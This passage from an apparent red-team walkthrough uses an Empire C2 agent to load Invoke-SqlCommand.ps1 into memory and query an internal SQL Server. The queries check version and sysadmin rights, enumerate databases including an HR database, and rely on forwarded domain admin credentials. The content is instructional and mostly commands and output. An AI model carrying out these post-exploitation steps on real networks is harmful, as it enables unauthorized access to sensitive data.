 ```
(Empire: HRAgent) > scriptimport /root/Invoke-SqlCommand.ps1
script successfully saved in memory
(Empire: HRAgent) > scriptcmd Invoke-SqlCommand -Server "10.40.40.40" -Database "master" -Query "SELECT @@version"
Job Started: Debug32_aja7w
RunspaceId: ebe22441-f98b-44f7-9533-4c802821a2c5
Column1 : Microsoft SQL Server 2008 (RTM) – 10.0.1600.22 (X64)
Jul 9 2008 14:17:44
Copyright (c) 1988-2008 Microsoft Corporation
Express Edition (64-bit) on Windows NT 6.2 <X64>
```

Note: *Invoke-SqlCommand.ps1 is an additional tool beyond Empire's built-in modules, and you must explicitly import it to use it.*

*Apparently it can be sourced from here:* <https://github.com/Erich-Stehr/PowerShell.Profile/blob/master/Invoke-SqlCommand.ps1>

Some notable points:

- In-Memory Script: Invoke-SqlCommand.ps1 was loaded into memory, avoiding disk writes.

- Default Database: Accessed the master database as a starting point, but others like tempdb could also be used.

- SQL Server Version: Identified as SQL Server 2008.

- Credential Forwarding: Domain admin credentials automatically forwarded by Windows provided access without additional login.

Next, we use SQL query ```"SELECT is_srvrolemember('sysadmin')"``` to confirm admin privileges:

```
(Empire: HRAgent) > scriptcmd Invoke-SqlCommand -Server "10.40.40.40" -Database "master" -Query "SELECT is_srvrolemember('sysadmin')"
```

The output ```Column1 : 1``` indicates full privileges.

Next, we query ```"SELECT name FROM master.dbo.sysdatabases"``` to get the list of databases. Since the output might be lengthy and contain multiple columns, we need to convert the result to a string format for easier viewing through the Empire agent. This is achieved by appending | out-string to the query:

```
(Empire: HRAgent) > scriptcmd Invoke-SqlCommand -Server "10.40.40.40" -Database "master" -Query "SELECT name FROM master.dbo.sysdatabases" | out-string
```

This command will display the names of the databases in a string format. Example output:

```
Job started: Debug32_ie9lg
name
----
master
tempdb
model
msdb
[...]
HR_master
[...]
```
